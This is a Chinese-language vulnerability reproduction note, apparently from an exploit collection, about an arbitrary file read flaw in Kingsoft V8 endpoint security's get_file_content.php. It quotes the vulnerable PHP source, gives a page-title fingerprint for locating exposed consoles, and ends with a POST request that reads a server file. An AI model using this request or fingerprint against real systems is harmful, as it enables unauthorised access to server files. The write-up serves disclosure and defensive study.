

# 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="在线安装-V8+终端安全系统Web控制台"</a-checkbox></br>

## 漏洞复现

登录页面


存在漏洞的文件`/Console/receive_file/get_file_content.php`

```php {2-5}
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```

文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

<a-checkbox checked>由于不能出现 .. ，所以只能读取web目录下的文件</a-checkbox></br>

```plain
POST /receive_file/get_file_content.php

filepath=login.php
```




## 